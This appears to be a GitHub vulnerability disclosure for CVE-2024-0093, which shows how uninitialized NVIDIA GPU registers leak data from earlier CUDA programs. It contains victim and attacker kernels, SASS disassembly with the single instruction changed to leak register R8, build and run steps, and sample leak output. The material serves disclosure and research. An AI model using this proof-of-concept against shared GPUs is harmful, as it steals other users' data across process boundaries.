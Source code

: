 # CVE-2024-0093: Previous State Leakage on NVIDIA GPUs

## Summary
On NVIDIA GPUs, the state of a shader/CUDA program running on the GPU are not initialized to zero. Resultingly, a CUDA program can leak data about other, previously executed CUDA programs.

This means that one process can maliciously read data processed by another process, if it is using the GPU for calculations.

## Exploitation
First, I compiled a small CUDA program:
```
extern "C" __global__ void fuzzer_kernel(int *a, int *b, int *c)
{
    int tid = blockIdx.x;
    c[tid] = a[tid] + b[tid];
}
```
The disassembly:
```
Normal kernel:
        /*0000*/                   MOV R1, c[0x0][0x28] ;           /* 0x00000a0000017a02 */
                                                                    /* 0x000fc40000000f00 */
        /*0010*/                   S2UR UR8, SR_CTAID.X ;           /* 0x00000000000879c3 */
                                                                    /* 0x000e220000002500 */
        /*0020*/                   UMOV UR9, 0x4 ;                  /* 0x0000000400097882 */
                                                                    /* 0x000fe40000000000 */
        /*0030*/                   ULDC.64 UR4, c[0x0][0x160] ;     /* 0x0000580000047ab9 */
                                                                    /* 0x000fe40000000a00 */
        /*0040*/                   ULDC.64 UR6, c[0x0][0x168] ;     /* 0x00005a0000067ab9 */
                                                                    /* 0x000fe40000000a00 */
        /*0050*/                   UIMAD.WIDE UR4, UR8, UR9, UR4 ;  /* 0x00000009080472a5 */
                                                                    /* 0x001fe4000f8e0204 */
        /*0060*/                   UIMAD.WIDE UR6, UR8, UR9, UR6 ;  /* 0x00000009080672a5 */
                                                                    /* 0x000fce000f8e0206 */
        /*0070*/                   LDG.E.SYS R0, [UR4] ;            /* 0x00000004ff007981 */
                                                                    /* 0x000ea8000c1ee900 */
        /*0080*/                   LDG.E.SYS R3, [UR6] ;            /* 0x00000006ff037981 */
                                                                    /* 0x000ea2000c1ee900 */
        /*0090*/                   ULDC.64 UR4, c[0x0][0x170] ;     /* 0x00005c0000047ab9 */
                                                                    /* 0x000fe40000000a00 */
        /*00a0*/                   UIMAD.WIDE UR4, UR8, UR9, UR4 ;  /* 0x00000009080472a5 */
                                                                    /* 0x000fe2000f8e0204 */
        /*00b0*/                   IADD3 R0, R0, R3, RZ ;           /* 0x0000000300007210 */
                                                                    /* 0x004fd00007ffe0ff */
        /*00c0*/                   STG.E.SYS [UR4], R0 ;            /* 0x00000000ff007986 */
                                                                    /* 0x000fe2000c10e904 */
        /*00d0*/                   EXIT ;                           /* 0x000000000000794d */
                                                                    /* 0x000fea0003800000 */
        /*00e0*/                   BRA 0xe0;                        /* 0xfffffff000007947 */
                                                                    /* 0x000fc0000383ffff */
        /*00f0*/                   NOP;                             /* 0x0000000000007918 */
                                                                    /* 0x000fc00000000000 */
```
In order to leak an uninitialized register,the instruction at `00c0` is modified. When changing it from `STG.E.SYS [UR4], R0` to `STG.E.SYS [UR4], R8`, the contents of R8 are returned instead of the original result.

However, since `R8` is not initialized to a default value (such as zero), it still contains data from another CUDA program which executed previously, thus leaking data which was previously processed on the GPU.

## Proof-of-Concept
For the PoC, a victim and an attacker program are provided. 

### Victim Program
The victim program executes a CUDA program on the GPU:
```
__global__ void victimKernel(int* a, int* b, int* c, int *d, int *e) {
    int idx = blockIdx.x;
    int tmp = 0x12346 + c[idx];

    b[idx] = a[idx];
    d[idx] = tmp - e[idx];
}
```
The input arrays are initialized to the following values:
```
a (in): 0x41414141
c (in): 0x42411efd
e (in): 1
```
`b` and `d` are used as output.

The attacker successfully leaks data from this victim program, if one of these values or intermediate results are read from an uninitialized register:
```
0x41414141
0x42411efd
0x42424242 (because: 0x12346 + 0x42411efd(array c) - 1(array e))
```
If we read one of those from `R8`, we determine that leakage was successful.

### Attacker Program
The attacker executes the following CUDA program on the GPU:
```
        /*0000*/                   MOV R1, c[0x0][0x28] ;           /* 0x00000a0000017a02 */
                                                                    /* 0x000fc40000000f00 */
        /*0010*/                   S2UR UR8, SR_CTAID.X ;           /* 0x00000000000879c3 */
                                                                    /* 0x000e220000002500 */
        /*0020*/                   UMOV UR9, 0x4 ;                  /* 0x0000000400097882 */
                                                                    /* 0x000fe40000000000 */
        /*0030*/                   ULDC.64 UR4, c[0x0][0x160] ;     /* 0x0000580000047ab9 */
                                                                    /* 0x000fe40000000a00 */
        /*0040*/                   ULDC.64 UR6, c[0x0][0x168] ;     /* 0x00005a0000067ab9 */
                                                                    /* 0x000fe40000000a00 */
        /*0050*/                   UIMAD.WIDE UR4, UR8, UR9, UR4 ;  /* 0x00000009080472a5 */
                                                                    /* 0x001fe4000f8e0204 */
        /*0060*/                   UIMAD.WIDE UR6, UR8, UR9, UR6 ;  /* 0x00000009080672a5 */
                                                                    /* 0x000fce000f8e0206 */
        /*0070*/                   LDG.E.SYS R0, [UR4] ;            /* 0x00000004ff007981 */
                                                                    /* 0x000ea8000c1ee900 */
        /*0080*/                   LDG.E.SYS R3, [UR6] ;            /* 0x00000006ff037981 */
                                                                    /* 0x000ea2000c1ee900 */
        /*0090*/                   ULDC.64 UR4, c[0x0][0x170] ;     /* 0x00005c0000047ab9 */
                                                                    /* 0x000fe40000000a00 */
        /*00a0*/                   UIMAD.WIDE UR4, UR8, UR9, UR4 ;  /* 0x00000009080472a5 */
                                                                    /* 0x000fe2000f8e0204 */
        /*00b0*/                   IADD3 R0, R0, R3, RZ ;           /* 0x0000000300007210 */
                                                                    /* 0x004fd00007ffe0ff */
        /*00c0*/                   STG.E.SYS [UR4], R8 ;            /* 0x00000008ff007986 */ <- CHANGE IS HERE
                                                                    /* 0x000fe2000c10e904 */
        /*00d0*/                   EXIT ;                           /* 0x000000000000794d */
                                                                    /* 0x000fea0003800000 */
        /*00e0*/                   BRA 0xe0;                        /* 0xfffffff000007947 */
                                                                    /* 0x000fc0000383ffff */
        /*00f0*/                   NOP;                             /* 0x0000000000007918 */
                                                                    /* 0x000fc00000000000 */
```
The changed instruction (see Exploitation section) is marked.

## Steps for Reproducing
I provided both the source code and prebuild binaries for the proof-of-concept. The code is intended to run on a Linux machine. The tested setup is:
- RTX 2060
- Driver Version: 535.54.03
- CUDA Version: 12.2
- Ubuntu 23.04
- Kernel: Linux 6.2.0-25-generic #25-Ubuntu SMP PREEMPT_DYNAMIC Fri Jun 16 17:05:07 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

In order to build the PoC, use `build.sh`.

1) First, execute the victim program: `./build/Victim`
2) In another terminal, navigate to the same folder. Next, execute the attacker program: `./attacker.sh`

If the attacker was able to successfully leak data, the attacker terminal output should look like this:
```
...
0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 
0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 
0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 
0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 
0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 0x42424242 
0x42424242 0x42424242 
successfully leaked magic value!
```